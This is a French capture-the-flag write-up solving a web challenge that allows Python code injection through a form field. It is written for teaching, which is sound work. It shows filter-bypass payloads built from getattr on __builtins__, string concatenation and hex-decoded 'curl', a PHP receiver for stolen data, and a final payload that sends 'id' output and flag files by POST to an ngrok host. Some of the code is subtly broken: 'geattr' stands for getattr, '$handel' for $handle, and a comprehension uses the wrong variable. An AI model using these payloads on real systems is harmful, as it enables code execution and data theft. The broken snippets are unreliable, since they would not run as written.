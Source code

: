 # WebJail

## Solution

- Le challenge nous fournit une page qui nous offre la possibilité d'exécuter des commandes via un formulaire.
- Note, les données de formulaire sont représentées de la manière suivante: ``command=rand&execute=Execute``
<br/>

![image](https://user-images.githubusercontent.com/74382279/157317880-896d7863-c7bd-4384-8bc6-b6ae7b3081a3.png)

- J'essaye d'envoyer une commande Python: ``print(1)``, mais aucun résultat. Je suppose donc qu'on doit jouer avec la requête pour trouver le bon point d'entrée.<br/>
- Pour ce faire je teste plusieurs techniques d'escape, quand finalement j'obtiens un résultat différent avec la commande suivante: ``);print(1)#``

![image](https://user-images.githubusercontent.com/74382279/157317785-2baf2def-ea0a-48e6-9e94-1079e55cc2a7.png)

- L'idée est d'importer la lib ``os`` pour exécuter des commandes Bash.  J'importe la lib ``os`` pour exécuter ``id``: ``);import os;os.popen('id').read()#``.
- Malheur, j'obtiens la réponse ``Blocked``. Je pars du principe que le chall contient un filtre qui match plusieurs fonctions Python, notamment ``read()``.
<br/>

![image](https://user-images.githubusercontent.com/74382279/157318532-29ad4480-d328-4db3-afcd-5042f5be7e0e.png)

- Je vais devoir builtin des fontions à partir de la class ``__builtins__``.
- La méthode ``getattr()`` renvoie la valeur de l'attribut nommé d'une class. S'il n'est pas trouvé, il renvoie la valeur par défaut fournie à la fonction.
- ``);geattr(__builtins__,'__imp''ort__')('o''s').popen('id')#``, par défaut j'utilise une méthode de concaténation pour éviter de faire trigger la commande par le filtre.
- N'oublions pas que la méthode ``read()`` n'est pas acceptée. Dans ce contexte on est supposé d'envoyer la requête en stdout vers un serveur web qu'on hébergera localement pour recept les données ``POST``. Tout ça ``OOB`` (Out of band). Les données ``OOB`` sont transférées via un flux indépendant du flux de données principal dans la bande.
- J'utilise Wampserv comme hébergeur local. First of all je script la fonction suivante en ``PHP``:

```php
<?php

if(isset($_POST["data"]) && !empty($_POST["data"])) {
  $handle = fopen("data.txt", "a+");
  fwrite($handel, $_POST["data"] . "\n");
  fclose($handle);
}

echo file_get_contents("data.txt");

?>
```

- J'héberge le fichier ``PHP`` dans le dossier ``tmp``. Comme tunnel j'utilise ``ngrok``: ``ngrok http 80``.
- J'ai maintenant mon lien, que je peux exploiter pour recept les données.
- Je reviens à la base, mais cette fois-ci en utilisant ``curl`` pour renvoyer une requête ``POST``: ``);geattr(__builtins__,'__imp''ort__')('o''s').popen('curl\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
- J'obtiens ``Blocked``, le filtre a donc trigger une partie de la commande. Ayant la flemme de chercher une alternative (``wget triggered``). Je teste plusieurs techniques de bypass: ``'CURL'.lower()`` => ``Blocked``. Puis une ne méthode de chiffrement pour déchiffrer dynamiquement et exécuter ``curl``.
```py
>>> ''.join([str(hex(ord(s)))[2:4] for s in 'curl'])
'6375726c'
>> ''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])
'curl'
```
- Vous avez dû remarquer, j'ai réécrit la fonction ``hex()`` pour éviter une autre fois le filtre (Les méthodes ``bytes.fromhex()`` & ``bytearray.fromhex()`` sont filtrés) . Comme requête finale j'obtiens:
``);geattr(__builtins__,'__imp''ort__')('o''s').popen(''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])+'\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
- Le serveur me renvoit bien la réponse:
<br/>

![image](https://user-images.githubusercontent.com/74382279/157323813-016de65c-4062-467f-a1a1-b2747ddee541.png)

``);geattr(__builtins__,'__imp''ort__')('o''s').popen(''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])+'\x20-X\x20POST\x20-d\x20\x22data=$(cat flag/*)\x22\x20https://rand.ngrok.io/tmp')#``

- J'ai bien aimé l'approche du challenge. Je tiens à préciser que plusieurs techniques d'importation de la class ``__builtins__`` étaient filtrés:
```py
__builtins__.__import__("os").system("ls")
__builtins__.__dict__['__import__']("os").system("ls")
```
- Le module préimporté ``reload()`` était match. La variable ``__class__`` pareil.
- Je suis donc parti du principe que je devais utiliser ``getattr()``.
- Merci d'avoir lu cette mini-writeup d'un challenge web que j'ai trouvé assez sympa à solve.
